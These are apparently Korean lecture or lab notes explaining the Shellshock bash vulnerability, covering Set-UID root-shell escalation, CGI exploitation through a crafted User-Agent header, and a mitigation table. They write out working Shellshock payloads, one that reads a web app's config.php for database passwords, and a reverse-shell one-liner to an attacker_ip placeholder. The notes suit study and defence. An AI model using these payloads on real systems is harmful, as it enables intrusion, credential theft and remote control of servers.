

---

# 🐚 Shellshock Vulnerability 정리

---

## 📌 Shell이란?

* Shell: 운영체제에서 **command-line interpreter** 역할
* 사용자가 입력한 명령어를 해석하고 실행함



* \*\*`export`\*\*를 통해 자식 프로세스에 상속(inherit)할 수 있음


* 또한 환경 변수를 설정해주면, 자식 프로세스에서는 함수가 될 수 있음

---

## 🚨 Shellshock 취약점 개요


* **취약한 bash**는 환경 변수에 담긴 문자열을 해석(parsing)하는 과정에서,
* 함수 정의처럼 보이는 문자열에 **함수 바깥의 명령어까지 실행**함

* bash에서는 foo=() { 를 foo() {. . .}로 변환하고 parse_and_excute를 호출함으로써 일반적인 쉘 명령어도 실행할 수 있게 됨


원래 Line A 처럼 환경 변수로 선언했지만, B처럼 변환됨

```bash
export foo='() { :; }; /bin/sh'
```

* 위 코드는 단순히 함수 정의처럼 보이지만,
* 실제로는 `/bin/sh` 명령이 **즉시 실행됨**

## Exploiting the Shellshock
* bash 쉘로 실행해야 함
* 환경 변수를 통해 input을 받을 수 있어야 함
---

## ⚙️ 실습 예시: Set-UID 바이너리에서의 Shellshock


* `vul`이라는 Set-UID 바이너리를 실행했을 때,
  내부적으로 `bash`를 호출함
* `foo` 환경 변수에 포함된 악성 명령이 bash에 의해 실행됨
* 결과적으로 **bash가 root 권한으로 실행됨**
  → 공격자는 **root shell을 획득**

---

## 🌐 Shellshock on CGI (Web 서버)

### CGI: 웹 서버가 외부 프로그램을 실행해 HTML을 동적으로 생성하는 기술


### 동작 흐름:

1. 사용자가 HTTP 요청 전송
2. Apache 웹 서버는 **`fork()`** → 새로운 자식 프로세스 생성
3. 자식 프로세스는 `exec()`로 CGI 스크립트를 실행
4. CGI 스크립트 상단: `#!/bin/bash_shellshock`
   → **취약한 bash가 실행됨**
5. HTTP 요청에 조작된 header가 포함되어 있으면
   → **Shellshock 발생 → bash가 명령 실행**


## 🧪 실습 결과 예시

### `User-Agent` 헤더에 악성 명령 삽입

```http
User-Agent: () { :; }; /bin/ls -l
```


* 웹 서버가 `/bin/ls -l`을 실행한 결과가 HTML로 출력됨
* Apache는 root가 아니라 일반 사용자로 실행되므로 **root 권한 탈취는 어려움**
* 하지만 **시스템 내부 정보, 파일 목록 등은 유출 가능**

---

## 🔐 정보 탈취 사례: DB 비밀번호


* 많은 웹 프로그램이 비밀번호를 파일에 하드코딩함
* Shellshock으로 `cat` 명령 실행 → **DB 비밀번호가 외부로 유출됨**

```bash
User-Agent: () { :; }; cat /var/www/html/config.php
```

---

## 🌀 Reverse Shell

> 공격자가 원격에서 시스템 셸을 조작할 수 있게 연결하는 기법

### 개념

* 피해자가 공격자의 컴퓨터로 **공격자에게 연결된 셸**을 피해자 시스템에서 띄우는 것
* 공격자는 **자신의 PC에서 서버를 제어**할 수 있음

### 예시 명령어 (Shellshock 이용)

```bash
User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/attacker_ip/4444 0<&1 2>&1
```


* shell shock와 똑같은데, 악성코드를 통해 tcp 연결을 공격자에게 열어줌으로써, 공격자가 피해자의 시스템을 제어할 수 있게 됨됨
---

## ✅ 보안 대책 요약

| 위험 요소             | 보안 대책                                            |
| ----------------- | ------------------------------------------------ |
| 취약한 bash 사용       | 최신 bash로 업그레이드                                   |
| CGI 스크립트에 bash 사용 | `#!/bin/bash` 대신 `#!/bin/sh` 또는 Python, PHP 등 사용 |
| 환경 변수 검증 없음       | 사용자 입력 검증, `mod_security` 사용                     |
| root 권한 실행        | 웹 서버는 반드시 일반 사용자 권한으로 실행                         |

---

